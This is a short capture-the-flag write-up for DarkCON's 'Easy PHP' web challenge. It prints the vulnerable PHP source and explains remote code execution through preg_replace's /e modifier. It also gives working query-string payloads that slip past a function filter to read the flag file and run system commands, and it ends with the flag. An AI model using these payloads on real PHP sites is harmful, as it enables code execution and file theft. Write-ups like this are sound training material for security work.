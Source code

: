 Easy PHP
===
**Category**: Web

**Points**: 384 (145 solves)

**Author**: Rosee
### Description
```
Please note....
Note: This chall does not require any brute forcing
```
- Site: `http://easy-php.darkarmy.xyz/`
### Solution
- i access `/robots.txt`, i see `?lmao`
- i have source
```<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```
- flow code: `bruh` and `ni3e` are passed as parameters. In PHP 5.6.4, i can rce via `preg_replace` with `/e` but function `is_payload_danger` disable many function can rce
- i find fucntion `show_source` not disable and we can use move payload.
### Payload
- use `show_source` -> ```?nic3=/CTF/e&bruh=show_source(glob("fl*")[0]);```
- use move payload -> ```?nic3=/CTF/e&bruh=$_GET[["cmd"]]("ls")&cmd=system;
### Flag
- `darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}`
